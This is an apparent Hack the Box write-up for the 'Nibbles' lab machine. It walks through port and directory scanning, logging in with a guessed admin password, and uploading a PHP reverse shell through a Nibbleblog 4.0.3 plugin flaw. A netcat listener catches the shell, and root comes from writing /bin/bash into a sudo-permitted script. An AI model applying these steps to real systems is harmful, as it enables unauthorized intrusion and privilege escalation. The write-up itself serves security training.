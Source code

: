 ```yaml
---
title: Nibbles
tags: linux
description: Write-up for Hack the Box - Nibbles
---
```


![image](assets/79372160-96defb00-7f23-11ea-8f04-4958f27e7e60.png)

## Overview

Nibbles is an Ubuntu box hosting a site called Nibbleblog. After some basic enumeration of the default page and gobuster scanning I found the admin page with an easily guessible password.  From there I took advantage of an arbitrary file execution vulnerability in Nibbleblog 4.0.3 and uploaded a reverse shell. The user nibbles was able to run a monitor script as root with no password, since the user had full control over that path I was able to create a file containg /bin/bash to become root.

## Enumeration

**Software**
* Ubuntu 16.04.3 LTS
* nibbleblog 4.0.3
  * Codename: Coffee
  * Release date: 2014-04-01
  * https://sourceforge.net/projects/nibbleblog/
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

**Open Ports**

```
map -v -Pn -sT -A -p- 10.10.10.75 -oN /mnt/data/boxes/nibbles/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http


**Directory/File Brute Forcer**

```
gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.html

```
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30 -x html,php
```

* /index.php
* /sitemap.php
* /content
  * /private - various XML files. users.xml sh ows username "admin"
    * /plugins - more folders containing db.xml file
  * /public - empty folders
  * /tmp - empty
* /feed.php - atom feed 
* /themes - theme folders
* /admin - site files
* /admin.php - "sign in to Nibbleblog admin area"
* /plugins - various folders
* /install.php - "Blog already installed... May be you want to update ?"
* /update.php - Redirect from install.php. Shows "DB updated + paths and Nibbleblog Version
* /README - Information about nibbleblog invluding version info, system requirements, etc.
* /languages
* /LICENSE.txt
* /COPYRIGHT.txt

## Steps (user)

I started by browsing to http://10.10.10.75 and received a page with the text "Hello World!". After viewing the source of the page I saw a comment that indicated there was a /nibbleblog/ directory on the site.

![image](assets/83189723-603df800-a0ff-11ea-9712-77138d9b898b.png)

I kicked off another gobuster scan, appending /nibbleblog to the URL, while I manually reviewed the site. There was nothing interesting in the source and all the links pointed to a blank page.

After checking the results of the second gobuster scan I came across an admin page.

```
http://10.10.10.75/nibbleblog/admin.php
```

![image](assets/83191735-82854500-a102-11ea-908d-dd345f41d141.png)

I did a search for default credentials for Nibbleblog but didn't find anything. Luckily the password was the name of the box so I was able to log in with admin/nibbles.

![image](assets/83193520-2ec82b00-a105-11ea-96b7-d9490b037f2d.png)

Doing an internet search for nibbleblog exploits, I came across this packetstorm article - https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

```
...truncated...

Activate My image plugin by visiting
http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
    Upload PHP shell, ignore warnings
    Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```

So basically once the image plugin is enabled any php file can be uploaded to get a web shell, reverse shell, etc. I decided to go right for a reverse shell.

I copied a reverse shell to my working directory and modified the IP and Port in the copy.
```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
```

I browsed to http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image and clicked "configure" under "My image".

![image](assets/83194570-d8f48280-a106-11ea-8a40-e31ba82a18e2.png)

I clicked "browse", selected rshell.php, and clicked "save changes"

![image](assets/83194669-00e3e600-a107-11ea-9b59-51a53952fe24.png)

There were errors but they can be ignored

![image](assets/83194710-122cf280-a107-11ea-8f72-f458298c8abb.png)

I set up a netcat listener (nc -lvnp 4200), browsed to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php and received a callback.

![image](assets/83194980-7f408800-a107-11ea-92c8-87a044fe8f7e.png)

## Steps (root/system)

Running "sudo -l" as user nibbler shows that this user can run "/home/nibbler/personal/stuff/monitor.sh" as root.

> There seems to be a delay when running sudo. The error is "unable to resolve host Nibbles" so guessed this had something to do with the hosts file.

![image](assets/83195399-28877e00-a108-11ea-9bb1-b08e1369a12c.png)

Changing to that directory failed because it didn't exist. I went ahead and created the personal/stuff folders along with the monitor.sh file.  

```
mkdir -p personal/stuff
```

Added the command to spawn a shell in monitor.sh and made it executable

```
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
```

Once I ran sudo, providing the full path to the monitor.sh script, I received a root shell.

![image](assets/83196087-40abcd00-a109-11ea-9fc0-ed2aca68fa28.png)
